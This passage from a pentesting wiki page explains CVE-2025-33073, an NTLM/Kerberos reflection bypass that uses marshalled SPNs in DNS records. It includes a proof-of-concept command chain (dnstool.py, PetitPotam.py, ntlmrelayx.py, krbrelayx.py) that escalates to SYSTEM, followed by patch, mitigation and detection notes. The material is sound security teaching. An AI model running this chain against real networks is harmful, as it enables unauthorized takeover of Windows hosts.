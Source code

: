```
**Read more detailed guide on how to perform those attacks here:**

[[../../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md]]

## Parse NTLM challenges from a network capture

**You can use** [[https://github.com/mlgualtieri/NTLMRawUnHide|**https://github.com/mlgualtieri/NTLMRawUnHide**]]

## NTLM & Kerberos *Reflection* via Serialized SPNs (CVE-2025-33073)

Windows contains several mitigations that try to prevent *reflection* attacks where an NTLM (or Kerberos) authentication that originates from a host is relayed back to the **same** host to gain SYSTEM privileges.  

Microsoft broke most public chains with MS08-068 (SMB→SMB), MS09-013 (HTTP→SMB), MS15-076 (DCOM→DCOM) and later patches, however **CVE-2025-33073** shows that the protections can still be bypassed by abusing how the **SMB client truncates Service Principal Names (SPNs)** that contain *marshalled* (serialized) target-info.

### TL;DR of the bug
1. An attacker registers a **DNS A-record** whose label encodes a marshalled SPN – e.g.
   `srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA → 10.10.10.50`
2. The victim is coerced to authenticate to that hostname (PetitPotam, DFSCoerce, etc.).
3. When the SMB client passes the target string `cifs/srv11UWhRCAAAAA…` to `lsasrv!LsapCheckMarshalledTargetInfo`, the call to `CredUnmarshalTargetInfo` **strips** the serialized blob, leaving **`cifs/srv1`**.
4. `msv1_0!SspIsTargetLocalhost` (or the Kerberos equivalent) now considers the target to be *localhost* because the short host part matches the computer name (`SRV1`).
5. Consequently, the server sets `NTLMSSP_NEGOTIATE_LOCAL_CALL` and injects **LSASS’ SYSTEM access-token** into the context (for Kerberos a SYSTEM-marked subsession key is created).
6. Relaying that authentication with `ntlmrelayx.py` **or** `krbrelayx.py` gives full SYSTEM rights on the same host.

### Quick PoC
```bash
# Add malicious DNS record
dnstool.py -u 'DOMAIN\\user' -p 'pass' 10.10.10.1 \
          -a add -r srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA \
          -d 10.10.10.50

# Trigger authentication
PetitPotam.py -u user -p pass -d DOMAIN \
             srv11UWhRCAAAAAAAAAAAAAAAAA… TARGET.DOMAIN.LOCAL

# Relay listener (NTLM)
ntlmrelayx.py -t TARGET.DOMAIN.LOCAL -smb2support

# Relay listener (Kerberos) – remove NTLM mechType first
krbrelayx.py -t TARGET.DOMAIN.LOCAL -smb2support
```
```
### Patch & Mitigations
* KB patch for **CVE-2025-33073** adds a check in `mrxsmb.sys::SmbCeCreateSrvCall` that blocks any SMB connection whose target contains marshalled info (`CredUnmarshalTargetInfo` ≠ `STATUS_INVALID_PARAMETER`).
* Enforce **SMB signing** to prevent reflection even on unpatched hosts.
* Monitor DNS records resembling `*<base64>...*` and block coercion vectors (PetitPotam, DFSCoerce, AuthIP...).

### Detection ideas
* Network captures with `NTLMSSP_NEGOTIATE_LOCAL_CALL` where client IP ≠ server IP.
```